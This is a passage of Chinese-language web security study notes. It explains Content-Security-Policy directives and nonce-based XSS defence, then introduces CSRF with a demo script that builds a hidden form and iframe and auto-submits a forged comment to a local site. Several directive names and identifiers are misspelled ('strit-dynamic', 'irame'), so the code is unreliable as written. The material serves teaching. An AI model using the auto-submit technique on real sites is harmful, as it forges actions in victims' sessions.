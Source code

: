 * 指定哪些可信，哪些不可信
* `<host-source><scheme-source>'self'`
* `'unsafe-inline''ubsafe-eval''none'` -XSS攻击重点：检测页面内容(信任规则)
* `'nonce-<base64-value>' <hash-source>`-一次性凭证 后台hash传递
* `'strit-dynamic'` 后续脚本的信任

#### 事例

```html
<!-- 在Content中设置规则 -->
<meta http-equiv="Content-Security-Policy" content="default-src https:">
```

* 防止XSS攻击

```html
<!-- 这样设置页面上的脚本会失效，但是外链引用的脚本会有效 -->
<meta http-equiv="Content-Security-Policy" content="default-src self">
<!-- 但是这样还会导致页面图片失效 因为没有设置相应的'img-src'规则 ，所以他只会信赖本域下的图片 -->
<!-- 为了更精准的操作放置XSS攻击，则采用script-src 这样图片不会受到影响 -->
<meta http-equiv="Content-Security-Policy" content="script-src self">
```

* 但是页面上有需要的呢,那就需要设置新规则`nonce`+随即字符串

```html
<!-- nonce+随机🔀字符串 -->
<meta http-equiv="Content-Security-Policy" content="script-src self nonce-1234">
```

```html
<script type="text/javascript" nonce="1234">

</script>
```

* 通过计算页面hash值也可以保证界面不受XSS攻击

## 03-01 前端CSRF攻击简介

* Cross Site Request Forgy
* 跨站请求伪造
* 其他网站对本网站产生的影响

### 登录对新闻评论

* 声明：这个网站是可以匿名评论和登录评论的,网站地址`http://loacalhost`
* 先在网站进行登录（把userid存储到cookie）
* 攻击方法

```html
<script type="text/javascript">
  document.write(`<form method="post" name="commentForm" target="csrf" action="http://loacalhost">
  <input type="hidden" name="postId" value="13">
  <textarea name="content" >来自csrf</textarea>
  </form>`);
  var irame = document.createElement('iframe');
  iframe.name = 'csrf';
  iframe.style.display = 'none';
  document.body.appendChild(iframe);

  setTimeout(() => {
    document.querySelector('[name=commentForm]').submit();//执行在攻击页面该脚本
  }, 1000);
</script>
```
